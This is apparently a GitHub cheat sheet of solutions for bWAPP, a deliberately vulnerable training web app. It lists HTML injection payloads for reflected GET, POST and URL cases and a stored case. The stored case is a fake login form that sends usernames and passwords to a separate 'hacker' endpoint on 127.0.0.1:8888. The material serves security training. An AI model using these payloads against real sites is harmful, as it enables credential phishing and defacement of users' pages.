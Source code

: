 # bWAPP Solutions
Hacking bWAPP and adding hacks to this cheetsheel, 
# A1 - Injection

### 💀  HTML Injection - Reflected (GET) 💀

url: /htmli_get.php

get's input with GET request and shows in the webpage with out validation in filtering

```
/bWAPP/htmli_get.php?firstname=%3Ch1%3EHello%3C%2Fh1%3E&lastname=%3Ch2%3EWorld%3C%2Fh2%3E&form=submit
```

or

```
first name : <h1>Hello</h1>
last name : <h1><b>World</b></h1>
```

### 💀  HTML Injection - Reflected (POST) 💀

url: /htmli_post.php

get's input from the input fields in sends POST request to the current webpage and displays with out validation and filtering, you can write html you want mr hacker :)

```
<h1>Hello</h1>
<h2><i>World</i></h2>
```

### 💀  HTML Injection - Reflected (URL) 💀

url: htmli_current_url.php
just shows the current uri with filters, con't pass get request

use burp suite for inject html or script using the url
```
htmli_current_url.php?>h1>Hacker loi</h1>
```

### 💀  HTML Injection - Stored (Blog) 💀

url: /htmli_stored.php
this one is pretty scarry. in the given fields any html you wite will be stored in the database then dispalyed in the bellow table.

try the following and analayse the result

```
<form method="post" action="http://127.0.0.1:8888/hacker_login_form.php">
       <div class="form-group">
           <label for="username">username</label>
           <input id="username" class="form-control" type="text" name="username">
       </div>
       <div class="form-group">
           <label for="password">password</label>
           <input id="password" class="form-control" type="password" name="password">
       </div>
       <button>Submit</button>
   </form>
```

